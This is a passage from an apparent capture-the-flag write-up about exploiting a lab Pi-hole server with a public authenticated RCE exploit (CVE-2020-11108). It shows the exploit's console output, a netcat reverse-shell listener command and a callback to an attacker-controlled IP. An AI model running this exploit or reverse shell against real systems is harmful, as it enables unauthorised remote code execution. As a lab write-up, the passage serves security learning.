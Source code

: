 The next obvious thing was to check if any vulnerability is present on that version in Exploit DB,
where this was found: <https://www.exploit-db.com/exploits/48519>

An authenticated RCE, perfect!

```bash
root@env263.kali05:/home/gt/its-always-dns# python3 48519.py 
[!] No arguments found: python3 CVE-2020-11108.py <dstIP> <srcIP> <PWD>
    Example: ./CVE-2020-11108.py 192.168.50.130 192.168.50.1 6DS4QtW5
    But for now, I will ask questions
[?] Please enter the IP address for Pi-Hole ([env263.target03]): 
[?] Please enter the your (reachable) IP address to launch listeners ([10.85.26.3]): 
[?] Please enter the password for Pi-Hole ([admin]): 
[+] Vulnerable URL is <http://env263.target03/admin>
[+] Creation success, ID is 6!
[!] Binding to 10.85.26.3:80
[+] Yes, we have an incoming connection from 10.93.26.3
[!] Closing Listener
[+] Update succeeded.
[+] This system is vulnerable!
Want to continue with exploitation? (Or just run cleanup)? [y/N]: y
Want root access? (Breaks the application!!) [y/N]: 
Ok, make sure to have a netcat listener on "10.85.26.3:9001" ("nc -lnvp 9001") and press enter to continue...
[!] Binding to 10.85.26.3:80
[+] Yes, we have an incoming connection from 10.93.26.3
[!] Closing Listener
[+] Update succeeded.
[+] Calling <http://env263.target03/admin/scripts/pi-hole/php/aotagnto.php>
[+] Calling exploit succeeded.
    
[+] Cleaning up now.
[+] Remove success
[+] All done, press enter to exit
```

Ok, cool. Where's the shell? Turns out it was a dud.

Multiple attempts were made, but non-succeeded, but
luckly after trying a custom payload to test the exploit, it was a success!

![Modified part of the RCE code](../../images/auth-rce-new-payload.png){: .image-process-crisp}
